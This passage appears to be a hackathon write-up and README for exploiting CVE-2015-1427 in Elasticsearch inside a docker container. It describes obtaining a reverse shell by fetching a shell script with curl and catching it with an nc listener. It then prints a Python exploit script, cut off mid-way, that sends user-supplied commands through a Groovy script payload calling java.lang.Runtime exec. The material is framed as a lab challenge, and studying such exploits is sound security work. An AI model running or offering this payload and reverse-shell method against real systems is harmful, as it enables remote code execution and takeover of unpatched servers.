 Second part consists in getting reverse shell: command injection lacks of flexibility and some functionality.
We've discovered, that somewhy we can't direct connect to our _nc_ listener. So we need to find a way around: executing .sh-script.
Easiest approach (not the nicest) we found was to install curl and download script directly to container.

![Using python simple server](images/cve-2015-1427/screen_2.png)

After that, with _nc_ listener we can acquire reverse shell. 

![Using python simple server](images/cve-2015-1427/screen_3.png)

[Video](https://youtu.be/VckaMBA3XRw)

How do I run it?
---
1. Run docker container.

2. Execute __cve_exploit.py__:

```python
#!/usr/bin/env python3

# SomeDayPWN at HACKATHON CONTAINER SECURITY CHALLENGE 2021
# 08.12.2021

import json
import requests


host = "127.0.0.1"
port = "9200"
url = f"http://{host}:{port}/_search?pretty"    # our victim POST point


while True:

    cmd = input("Enter command: ")
    if cmd == "script_exit":
        break

    payload = '{"size":1, "script_fields": {"data_leak":{"script": "java.lang.Math.class.forName(\\"java.lang.Runtime\\").getRuntime().exec(\\"%s\\").getText()"}}}' %(cmd)
                                                # payload => POST data malicous content, that allows us to exec system commands

```
